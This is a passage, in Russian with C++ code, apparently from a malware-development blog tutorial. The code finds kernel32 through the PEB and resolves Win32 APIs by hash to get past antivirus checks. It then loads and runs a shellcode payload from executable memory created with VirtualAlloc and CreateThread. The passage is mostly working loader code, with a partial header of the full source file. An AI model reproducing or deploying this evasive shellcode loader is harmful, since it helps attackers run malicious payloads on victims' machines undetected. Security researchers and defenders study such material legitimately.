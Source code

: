 ```cpp
  }
  return nullptr;
}
```

А соответственно, логика функции `main()` отличается:    

```cpp
int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = 
  (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = 
  (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = 
  (fnVirtualAlloc)myGetProcAddress(
    hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = 
  (fnCreateThread)myGetProcAddress(
    hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = 
  (fnWaitForSingleObject)myGetProcAddress(
    hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, 
  (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}
```

Как видно, я использовал [трюк с вызовом Win32 API по хэшу](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html).    

Полный исходный код (`hack.cpp`):

```cpp
/*
 * hack.cpp - find kernel32 from PEB, 
 assembly style. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/04/02/malware-injection-18.html
*/
#include <windows.h>
#include <stdio.h>

typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR Buffer;
} UNICODE_STRING;

struct LDR_MODULE {
  LIST_ENTRY e[3];
  HMODULE base;
  void* entry;
  UINT size;
  UNICODE_STRING dllPath;
  UNICODE_STRING dllname;
};
```